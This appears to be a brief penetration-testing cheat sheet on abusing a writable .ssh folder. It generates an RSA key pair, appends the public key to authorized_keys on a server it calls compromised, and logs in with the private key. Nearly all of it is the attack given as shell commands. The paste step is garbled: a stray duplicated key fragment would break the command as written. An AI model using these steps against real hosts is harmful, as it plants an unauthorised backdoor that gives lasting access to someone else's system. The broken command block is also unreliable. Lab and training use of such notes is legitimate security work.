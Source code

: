 # Writable .ssh folder

## add your public keys and connect to host via ssh
### generate keys
```
ssh-keygen -t rsa -b 1024 -f testkeys```

### add keys to compromised ssh server
#### copy
```
cat testkeys.pub | xclip -selection c```

#### paste
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQDAN9xF6yh8o58+XaXtig86wCBgAh304mw1WSl4xTMo6s8G7I4q2ghXpHh4VpggPbi7+Q2VfbQuBWQeb4sKHTOh6qvXjgpFdqVwbgHrstxVvVC7ZoRSex+qDRumb2TmhRhNb1IiVMdNaPvZL/vzPzNIrW/xdceg/uL1o3MCxDYk7w== kali@kali
<iVMdNaPvZL/vzPzNIrW/xdceg/uL1o3MCxDYk7w== kali@kali" >> authorized_keys
```

### connect to host
```
ssh -i testkeys user@host```

